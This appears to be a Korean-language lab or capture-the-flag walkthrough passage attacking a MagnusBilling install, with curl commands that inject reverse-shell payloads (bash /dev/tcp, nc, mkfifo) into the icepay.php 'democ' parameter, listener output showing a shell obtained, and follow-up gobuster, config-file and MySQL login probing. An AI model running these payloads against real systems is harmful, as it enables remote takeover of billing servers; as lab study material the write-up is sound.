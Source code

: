 ````bash
# %32 => 2    # stderr
# %3C => <    # stdin

# 디코딩
curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test;bash -c 'bash -i >& /dev/tcp/10.8.136.212/4444 0>&1'"
# 인코딩
curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test%3Bbash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.8.136.212/4444%200%3E%261%27"
# bash 사용 시 ambiguous redirect 에러 발생 원인 파악중
┌──(root㉿docker-desktop)-[/]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.136.212] from (UNKNOWN) [10.10.13.178] 59270
bash: line 1: 1.txt: ambiguous redirect

# 리스너 먼저 시작
nc -lvnp 4444
# 단순
curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test;bash -c 'bash -i 2>&1 | nc 10.8.136.212 4444'"
curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test%3Bbash%20-c%20%27bash%20-i%202%3E%261%20%7C%20nc%2010.8.136.212%204444%27"
# 더 안정적인
curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.136.212 4444 > /tmp/f"
curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test%3Brm%20/tmp/f%3Bmkfifo%20/tmp/f%3Bcat%20/tmp/f%7C/bin/sh%20-i%202%3E%261%7Cnc%2010.8.136.212%204444%20%3E/tmp/f"

# 리버스 쉘 시도 2차 -> 연결은 되나 에러
─(root㉿docker-desktop)-[/tmp]
└─# nc -lvvnp 4444
listening on [any] 4444 ...
connect to [10.8.136.212] from (UNKNOWN) [10.10.13.178] 38228
/bin/sh: 0: can't access tty; job control turned off
$


#### 5. 추가 이뉴머레이션
```bash
# 디렉토리 브루트포싱 재시도
gobuster dir -u http://10.10.13.178/mbilling/ -w /usr/share/wordlists/dirb/common.txt

# 설정 파일 접근 시도
curl http://10.10.13.178/mbilling/config/config.conf.php
curl http://10.10.13.178/mbilling/config/
````

#### MySQL 서비스 조사

```bash
# MySQL 연결 시도
apt instsall maria-client
mysql -h 10.10.13.178 -u root -p
mysql -h 10.10.13.178 -u admin -p
```
